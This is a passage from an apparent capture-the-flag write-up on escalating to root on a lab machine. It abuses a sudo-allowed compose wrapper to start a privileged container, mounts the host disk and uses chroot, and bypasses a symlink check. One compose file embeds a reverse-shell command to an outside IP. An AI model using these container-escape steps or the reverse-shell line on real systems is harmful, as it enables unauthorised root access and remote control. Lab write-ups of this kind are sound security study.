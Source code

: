 ~~~bash
# List mounts in tree format
findmnt # ~> /dev/sda1 is the root filesystem partition

# Trigger reverse shell from privileged container
sudo /opt/secure_compose.py /tmp/privileged-bypass-OsE7Cu.yml
~~~
{:file="bryan@redteam ➤ ssh ➤ john@cybermonday ➤ bash" .nolineno}

From the reverse shell session, we mounted the host filesystem at `/mnt`{:.filepath} to grant full access to the host filesystem. We used `chroot` to switch to the mounted host filesystem, and finally read the root flag.

~~~bash
# Mount the host filesystem
mount /dev/sda1 /mnt

# Access the host filesystem + read the root flag
chroot /mnt bash
cat /root/root.txt
~~~
{:file="bryan@redteam ➤ pwncat-cs ➤ root@cde2f4ce2405 ➤ bash" .nolineno}


#### Restricted Volumes Bypass (Bonus)

The `check_no_symlinks` check could also be bypassed using a path _beyond_ a symbolic link. For example, to read a protected directory like `/root`{:.filepath} we created a link from `/`{:.filepath} to `/home/john/fs`{:.filepath}, then accessed `/root`{:.filepath} by adding `/home/john/fs/root`{:.filepath} as a volume.

~~~yaml
# Restricted Volumes Bypass
version: "3"
services:
  volumes-bypass:
    image: "cybermonday_api"
    volumes: ["/home/john/fs/root:/mnt/root:ro"]
    command: ["bash","-c","bash -i>&/dev/tcp/10.10.14.2/8888<&1"]
~~~
{:file="volumes-bypass.yml"}

~~~bash
ln -s / /home/john/fs
sudo /opt/secure_compose.py ./volumes-bypass.yml
~~~
{:file="bryan@redteam ➤ ssh ➤ john@cybermonday ➤ bash" .nolineno}

After catching the reverse shell, the root flag was once again read from `/mnt/root/root.txt`{:.filepath}.
